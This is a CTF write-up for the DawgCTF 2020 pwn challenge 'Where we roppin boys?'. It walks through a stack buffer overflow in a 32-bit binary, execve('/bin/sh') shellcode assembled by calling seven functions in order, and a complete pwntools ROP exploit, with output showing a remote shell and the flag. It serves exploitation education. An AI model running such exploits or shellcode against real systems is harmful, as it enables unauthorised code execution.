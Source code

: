 # DawgCTF 2020

## Where we roppin boys?

> 350
>
> Forknife is still a thing right?
>
> `nc ctf.umbccd.io 4100`
> 
>Author: trashcanna
>
> [rop](rop)

Tags: _pwn_ _rop_ _shellcode_ _bof_


### Introduction

This is more of a walkthrough, if bored click [exploit.py](exploit.py)


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Few mitigations in place, basically no shellcode, everything else is fair game.


#### Decompile with Ghidra

There are three primary functions of interest: `welcome`, `tryme`, and `win`.

Main starts with `welcome`:

![](welcome.png)

Well, there's an invitation: `shellcode`. `shellcode` is a pointer to a region of memory allocated by `mmap` that is `0x1c` (28) bytes in length and setup for R/W access only (the `3` is `PROT_READ|PROT_WRITE`, IOW `1|2`).  The rest of the `mmap` parameters are less interesting.

![](tryme.png)

There's a buffer overflow vulnerability at line 9.  `fgets` will read 24 (`0x19 - 1`) characters filling up `local_10`, then the pushed `ebx` (standard for x86 32-bit), then the saved base pointer, then finally the return address, with 4 bytes to spare for a 2nd return address, IOW ROP (the binary is called `rop` after all).

![](win.png)

`win` starts off by setting the memory `shellcode` points to, to allow execution (`PROT_EXEC` (4)), then executes it.  Now shellcode is an option (only in this region of memory).

Clearly we want to call `win` with some shellcode.

_But wait!  There's more._

There are 7 other, nearly identical functions that look similar to:

![](tilted_towers.png)

This function sets `iVar4` to the address (`0x8049385`) of the instruction after the call to `__x86.get_pc_thunk.ax()`:

```
08049380 e8 b0 03 00 00       CALL       __x86.get_pc_thunk.ax
08049385 05 7b 2c 00 00       ADD        EAX,0x2c7b
```

`iVar4` (`0x8049385`) + `0x2cb3` is then compared with `0x17` (23), and if greater-than, then the function just returns.

Checking `0x8049385` + `0x2cb3` or `0x804c038` with Ghidra reveals a 4-byte global labeled as `len`:

```
                     len
0804c038                 undefined4 ??
```

If `len` is not greater-than `0x17` (23), then `shellcode[len++] = 0x31`, `shellcode[len++] = 0xc0`, and so on.

There are a total of 7 of these functions that populate the memory pointed to by `shellcode`:

```
dusty_depot:   0x0b 0xcd 0x80 0x31
greasy_grove:  0x6e 0x89 0xe3 0x89
junk_junction: 0x2f 0x2f 0x73 0x68
lonely_lodge:  0xc1 0x89 0xc2 0xb0
loot_lake:     0xc0 0x40 0xcd 0x80
tilted_towers: 0x31 0xc0 0x50 0x68
snobby_shores: 0x68 0x2f 0x62 0x69
```

Calling any of these will just `shellcode[len++] = byte` for each of the four hardcode bytes in the function.

These bytes are shellcode, but what is not obvious is the order in which each function needs to be called to generate useable shellcode, and which ones are required, and if some are called more than once.

> After the 6th call to one of these functions `len` will be 24.

I'm not a shellcode expert to I looked some up and found this: [http://shell-storm.org/shellcode/files/shellcode-827.php](http://shell-storm.org/shellcode/files/shellcode-827.php):

```
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		          "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
```

This is not an exact match with the options presented, but good enough to muddle through.  You can do this yourself as well.  Based on my obversations I went with the following order:

```
'tilted_towers','junk_junction','snobby_shores','greasy_grove','lonely_lodge','dusty_depot'
```

`loot_lake` was not required.

`tryme` above only has room for 2, so repeated calls to `tryme` will be required.
 

### Exploit

```
from pwn import *

binary = ELF('rop')

p = process('./rop')
#p = remote('ctf.umbccd.io', 4100)
p.recvuntil('boys?\n')

rops = ['tilted_towers','junk_junction','snobby_shores','greasy_grove','lonely_lodge','dusty_depot','win']

for i in rops:
	payload  = 8 * b'A'
	payload += p32(binary.symbols['_GLOBAL_OFFSET_TABLE_'])
	payload += 4 * b'B'
	payload += p32(binary.symbols[i])
	payload += p32(binary.symbols['tryme'])
	p.send(payload)

print(p.interactive())
```

When the binary starts you'll end up at the `fgets` in `tryme` waiting for input.

For each function the payload is setup to:

* send 8 `A`s (`local_10`)
* then 4 bytes for the value that will be copied back into `ebx` before the function `leave`s and `ret`urns (this is required for ASLR/PIE enabled binaries, however, for this exploit any value will do, but it's good to be in the habit of setting `ebx` to the address of the GOT before end of function (also required is the base process address if PIE enabled))
* then 4 bytes to overwrite the saved based pointer
* then the function (`rops`) to call overwriting the return address
* then the function (`tryme`) to call overwriting the previous function return address.

It is critical to use `p.send()` vs. `p.sendline()` since `fgets` is setup to only read 24 characters.  `p.sendline()` will send a 25th char (`\n`), that will be picked up on the next call to `tryme` and will spoil your attack.


#### Output

After getting a remote shell, get the flag (while you're there, poke around a bit as well :-):

```
root@bf0bd4081cb8:/pwd/datajerk/dawgctf2020/roppin-boys# ./exploit.py
[*] '/pwd/datajerk/dawgctf2020/roppin-boys/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to ctf.umbccd.io on port 4100: Done
[*] Switching to interactive mode
sh: 0: can't access tty; job control turned off
$ id
uid=1000(challuser) gid=1000(challuser) groups=1000(challuser)
$ ls
flag.txt  rop
$ ls -l
total 20
-r--r----- 1 root challuser    22 Mar 26 14:34 flag.txt
-rwxr-xr-x 1 root challuser 15868 Mar 26 14:34 rop
$ cat flag.txt
DawgCTF{f0rtni9ht_xD}
```

#### Flag

```
DawgCTF{f0rtni9ht_xD}
```
